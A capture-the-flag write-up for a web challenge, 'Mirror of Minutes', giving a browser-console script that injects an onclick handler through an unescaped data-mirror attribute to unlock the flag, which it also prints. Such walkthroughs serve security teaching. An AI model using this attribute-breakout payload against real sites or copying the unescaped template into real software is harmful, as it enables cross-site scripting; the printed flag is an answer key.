

repository: cyscomvit/writeups · page: writeups/FinalTrace_2025/26-act-iii-mirror-of-minutes-xss-ctf-walkthrough.html · generator: jekyll

---
layout: writeup

title: Mirror of Minutes
difficulty: Medium
points: 500
categories: [General]
tags: []

flag: cys{m1rr0r_p4ss}
---


## Mirror of Minutes

## Quick Start

### Step 1: Open Developer Console
- Press **F12** on your keyboard
- Click on the **Console** tab

### Step 2: Execute the Exploit
Copy and paste this into the console:

```javascript
// Inject XSS payload into the reflection data
reflections.push({
    timestamp: Date.now(),
    id: "exploit",
    mirror: `survivor" onclick="window.networkUtils.unlockMirror()`,
    text: "payload triggered",
    contact: "attacker@void"
});

// Re-render to inject the XSS
renderObservations();

// Click the injected element to trigger XSS
document.querySelector('[data-mirror]').click();

// Verify and get flag
verifyLucidity();

// Display flag
alert(document.getElementById('flagContent').textContent);
```

### Step 3: Get the Flag
The flag will appear: `cys{m1rr0r_p4ss}`

---

## How It Works

### The Vulnerability
The `data-mirror` attribute is **not escaped**:

```javascript
// Vulnerable code in renderObservations():
`<div data-mirror="${mirrorAttr}" ...>`
// mirrorAttr is never HTML-escaped!
```
